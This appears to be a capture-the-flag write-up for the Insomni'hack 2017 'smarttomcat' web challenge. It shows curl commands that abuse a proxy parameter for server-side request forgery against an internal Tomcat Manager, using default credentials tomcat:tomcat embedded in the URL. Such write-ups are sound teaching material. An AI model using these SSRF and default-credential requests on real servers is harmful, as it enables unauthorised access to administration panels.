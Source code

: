 ```yaml
---
layout: post
title: "Insomni'hack teaser - 50 - smarttomcat - Web"
lang: en
categories:
  - security
  - writeups
tags:
  - security
  - writeups
  - ctf
  - web
date: 2017/01/21
thumbnail: /images/ctf.png
---
```

## Informations

### Version

| By    | Version | Comment
| ---   | ---     | ---
| noraj | 1.0     | Creation

### CTF

- **Name** : Insomni'hack teaser 2017
- **Website** : [teaser.insomnihack.ch](http://teaser.insomnihack.ch/)
- **Type** : Online
- **Format** : Jeopardy
- **CTF Time** : [link](https://ctftime.org/event/382)

### Description

> smarttomcat - Web - 50 pts - realized by xel/grimmlin
>
> Normal, regular cats are so 2000 and late, I decided to buy this allegedly smart tomcat robot
> Now the damn thing has attacked me and flew away. I can't even seem to track it down on the broken search interface... Can you help me ?
>
> [Search interface](http://smarttomcat.teaser.insomnihack.ch/)

## Solution

We have a web application like this:

![](http://i.imgur.com/ey5DMYM.png)

Let's take a look at sources, there is some JavaScript:

```javascript
[...]
<script>
var map = new OpenLayers.Map("map");
map.addLayer(new OpenLayers.Layer.OSM());
var lonlat = new OpenLayers.LonLat(15.2833,-4.2667).transform(new OpenLayers.Projection("EPSG:4326"),map.getProjectionObject());
var zoom = 10;
var markers = new OpenLayers.Layer.Markers( "Markers" );
map.addLayer(markers);
var center_marker = new OpenLayers.Marker(lonlat);
markers.addMarker(center_marker);
map.setCenter(lonlat,zoom);
var request;
$('#findcatbycoord').submit(function(event){
    event.preventDefault();
    if (request) {
        request.abort();
    }
    var cat_coords = 'http://localhost:8080/index.jsp?x=' + parseFloat($('#xcoord').val()) + '&y=' + parseFloat($('#ycoord').val());
    var $form = $(this);
    var $inputs = $form.find('input, select, button, textarea');
    $inputs.prop('disabled', true);

    request = $.ajax({
        url: '/index.php',
        type: 'post',
        success: function(data) {
          markers.clearMarkers();
          while(map.popups.length) {map.removePopup(map.popups[0]);}
          var y = parseFloat($('#ycoord').val());
          var x = parseFloat($('#xcoord').val());
          if (isNaN(y) || isNaN(x)) {y = 15.2833; x = -4.2667;}
          lonlat = new OpenLayers.LonLat(y,x).transform(new OpenLayers.Projection("EPSG:4326"),map.getProjectionObject());
          center_marker = new OpenLayers.Marker(lonlat);
          markers.addMarker(center_marker);
          popup = new OpenLayers.Popup.FramedCloud("popup",
                   lonlat,
                   null,
                   data, null,
                   true);
          map.addPopup(popup);
          map.setCenter(lonlat,zoom);
        },
        data: {
		u: cat_coords
	}
    });
    request.always(function () {
       $inputs.prop('disabled', false);
    });

});
</script>
[...]
```

The interesting line is:
`var cat_coords = 'http://localhost:8080/index.jsp?x=' + parseFloat($('#xcoord').val()) + '&y=' + parseFloat($('#ycoord').val());`. So we have one web serve that is a proxy for a web application.

We can see in http headers that the front-end server is `Apache/2.4.18 (Ubuntu)`.

The description is suggesting we have a Tomcat web app.

In the javascript we can see `var map = new OpenLayers.Map("map");` and `OpenLayers` is a class of GeoServer.

What do we have?
+ Front-end: `Apache/2.4.18 (Ubuntu)`
+ Back-end: `Apache Tomcat/7.0.68 (Ubuntu)`
+ Map-core: `GeoServer`

In the javascript we also see `if (isNaN(y) || isNaN(x)) {y = 15.2833; x = -4.2667;}` that means the browser won't let us send anything else than numbers in the form. We should use Hackbar or curl.

What to do now? We guessed this is a Tomcat web app so let's find the Tomcat Manager (administration panel for Tomcat web server).

A normal request (POST data) would be:

```
u=http://localhost:8080/index.jsp?x=42%26y=1337
```

With curl:

```
& curl --data "u=http://localhost:8080/index.jsp?x=42%26y=1337" http://smarttomcat.teaser.insomnihack.ch/
Tomcat not found ! Try again
```

Now let's try to reach the Tomcat Manager page which is usually: `http://example.org:8180/manager/html`. Here we have the manager also running on port `8080`.

So with curl:

```
& curl --data "u=http://127.0.0.1:8080/manager/html/" http://smarttomcat.teaser.insomnihack.ch/
<html><head><title>Apache Tomcat/7.0.68 (Ubuntu) - Error report</title><style><!--H1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} H2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} H3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} BODY {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} B {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} P {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;}A {color : black;}A.name {color : black;}HR {color : #525D76;}--></style> </head><body><h1>HTTP Status 401 - </h1><HR size="1" noshade="noshade"><p><b>type</b> Status report</p><p><b>message</b> <u></u></p><p><b>description</b> <u>This request requires HTTP authentication.</u></p><HR size="1" noshade="noshade"><h3>Apache Tomcat/7.0.68 (Ubuntu)</h3></body></html>%
```

With hackbar:

![](http://i.imgur.com/q3IC28Y.png)

We can see the following error: `HTTP Status 401: This request requires HTTP authentication.`
This is because we should provide some Basic Auth informations.

Default credentials of Tomcat Manager are `tomcat:tomcat`.

So the http header for authentification should be `Authorization: Basic dG9tY2F0OnRvbWNhdA==`.

The option to pass basic authentification to curl is `-u` but doing the following command won't work:

```
$ curl -u tomcat:tomcat --data "u=http://127.0.0.1:8080/manager/html/" http://smarttomcat.teaser.insomnihack.ch/
```

Because this will provide the authentification to the Apache front-end instead of giving it to the proxyfied Tomcat Manager running on the back-end.

But it's possible to directly provide credentials for basic autentification in the URL, for example: `http://user:pass@example.org`.

Let's do it:

```
$ curl --data "u=http://tomcat:tomcat@127.0.0.1:8080/manager/html/" http://smarttomcat.teaser.insomnihack.ch/
We won't give you the manager, but you can have the flag : INS{th1s_is_re4l_w0rld_pent3st}
```

The flag was: `INS{th1s_is_re4l_w0rld_pent3st}`. No need to find the coordinates.
